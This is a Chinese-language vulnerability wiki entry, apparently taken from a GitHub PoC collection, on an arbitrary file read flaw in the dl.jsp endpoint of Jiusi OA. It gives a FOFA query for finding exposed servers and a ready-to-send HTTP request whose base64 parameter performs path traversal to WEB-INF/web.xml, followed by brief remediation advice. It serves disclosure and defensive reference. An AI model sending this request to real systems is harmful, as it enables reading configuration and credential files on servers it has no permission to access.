

# 九思OA dl.jsp 任意文件读取漏洞

# 漏洞描述

北京九思协同办公软件dl.jsp接口处存在任意文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 影响版本

九思OA

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/jsoa/login.jsp"

POC/EXP：

POST /jsoa/dl.jsp?JkZpbGVOYW1lPS4uLy4uLy4uL1dFQi1JTkYvd2ViLnhtbCZwYXRoPS9h HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
